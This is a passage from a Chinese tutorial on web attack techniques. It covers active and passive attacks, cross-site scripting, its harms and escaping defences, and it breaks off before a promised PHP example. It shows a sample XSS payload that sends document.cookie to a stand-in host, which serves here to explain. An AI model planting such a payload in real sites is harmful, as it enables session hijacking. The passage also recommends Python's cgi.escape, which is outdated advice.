 # 七、Web 攻击技术

## 7.1 攻击模式

### 7.1.1 主动攻击

> 直接攻击服务器，具有代表性的有 `SQL` 注入和 `OS` 命令注入。

### 7.1.2 被动攻击

- 设下圈套，让用户发送有攻击代码的 `HTTP` 请求，用户会泄露 `Cookie` 等个人信息，具有代表性的有跨站脚本攻击和跨站请求伪造。

## 7.2 跨站脚本攻击

### 7.2.1 概念

> 跨站脚本攻击（`Cross-Site Scripting, XSS`），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 Cookie 等各种内容。

例如有一个论坛网站，攻击者可以在上面发表以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

> 另一个用户浏览了含有这个内容的页面将会跳往 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 7.2.2 危害

- 伪造虚假的输入表单骗取个人信息
- 窃取用户的 `Cookie` 值
- 显示伪造的文章或者图片

### 7.2.3 防范手段

**过滤特殊字符**

许多语言都提供了对 HTML 的过滤：

- PHP 的 `htmlentities()` 或是 `htmlspecialchars()`。
- Python 的 `cgi.escape()`。
- Java 的 `xssprotect` (Open Source Library)。
- Node.js 的 `node-validator`。

**指定 HTTP 的 Content-Type**

通过这种方式，可以避免内容被当成 HTML 解析，比如 PHP 语言可以使用以下代码：
